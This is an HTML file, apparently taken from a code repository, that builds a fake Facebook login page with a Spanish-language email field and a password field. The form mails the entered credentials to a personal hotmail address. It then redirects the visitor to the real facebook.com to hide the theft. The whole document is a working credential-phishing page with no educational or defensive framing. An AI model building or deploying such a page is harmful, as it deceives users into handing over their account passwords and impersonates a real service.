 <!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Real State</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f2f5;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            flex-direction: column;
        }
        .container {
            background: white;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
            text-align: center;
            width: 300px;
        }
        h1 {
            position: absolute;
            top: 10px;
            left: 10px;
            color: #1877f2;
            font-size: 24px;
        }
        input {
            width: 90%;
            padding: 10px;
            margin: 10px 0;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
        button {
            width: 100%;
            padding: 10px;
            background-color: #1877f2;
            color: white;
            border: none;
            border-radius: 5px;
            cursor: pointer;
        }
        button:hover {
            background-color: #165dbe;
        }
    </style>
</head>
<body>

    <h1>facebook</h1>

    <div class="container">
        <form action="mailto:memoavilatorres@hotmail.com" method="post" enctype="text/plain" onsubmit="redirect()">
            <input type="email" name="email" placeholder="Correo Electrónico" required>
            <input type="tel" name="pasword" placeholder="pasword" required>
            <button type="submit">Sign In</button>
        </form>
    </div>

    <script>
        function redirect() {
            setTimeout(function() {
                window.location.href = "https://www.facebook.com";
            }, 1000);
        }
    </script>

</body>
</html>
